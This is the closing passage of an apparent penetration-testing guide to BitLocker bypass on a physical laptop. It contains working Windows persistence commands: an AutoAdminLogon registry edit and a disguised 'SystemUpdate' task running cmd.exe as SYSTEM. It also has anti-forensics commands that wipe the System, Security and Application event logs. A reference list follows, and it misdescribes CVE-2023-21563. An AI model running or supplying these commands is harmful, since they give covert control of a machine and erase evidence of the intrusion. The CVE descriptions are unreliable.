 ### **Enhanced Persistence**
```powershell
# Registry modifications for permanent access
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon /t REG_SZ /d 1 /f

# Scheduled task persistence
schtasks /create /tn "SystemUpdate" /tr "cmd.exe" /sc onlogon /ru SYSTEM
```

### **Anti-Forensics Considerations**
```powershell
# Clear event logs (if authorized)
wevtutil cl System
wevtutil cl Security
wevtutil cl Application

# Timestamp manipulation awareness
# Registry key modification tracking
# File system artifact management
```

---

## 📞 **SUPPORT & REFERENCES**

### **Tool Documentation**
- **dislocker**: BitLocker encryption bypass tool
- **BitPixie**: CVE exploitation framework
- **bcdedit**: Windows boot configuration editor
- **manage-bde**: BitLocker management utility

### **CVE References**
- **CVE-2023-21563**: Windows Ancillary Function Driver Elevation of Privilege
- **CVE-2024-1086**: Linux kernel netfilter use-after-free privilege escalation

### **Professional Standards**
- **PTES**: Penetration Testing Execution Standard
- **OWASP**: Open Web Application Security Project Testing Guide
- **NIST**: National Institute of Standards and Technology Cybersecurity Framework

---

## 🏆 **CONCLUSION**

This guide documents the complete methodology for achieving physical laptop recovery with BitLocker bypass. The techniques demonstrated represent advanced penetration testing capabilities and should only be used in authorized security assessments.

**Key Success Factors:**
1. **Proper Authorization**: Always ensure legal permission
2. **Technical Preparation**: Have all tools ready before starting
3. **Methodical Approach**: Follow steps in order for best results
4. **Professional Documentation**: Maintain proper evidence chain
5. **Responsible Disclosure**: Report findings appropriately
